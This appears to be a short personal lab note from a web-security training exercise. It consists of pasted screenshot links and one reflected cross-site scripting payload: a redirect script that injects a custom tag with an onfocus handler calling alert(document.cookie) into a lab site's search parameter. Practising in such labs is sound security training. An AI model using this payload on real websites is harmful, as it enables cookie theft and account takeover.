 ![[Pasted image 20220905185454.png]]


%script%
location='https://0a160008049596f0c0535f2300390029.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
%/script%


![[Pasted image 20220905191119.png]]

![[Pasted image 20220905191136.png]]
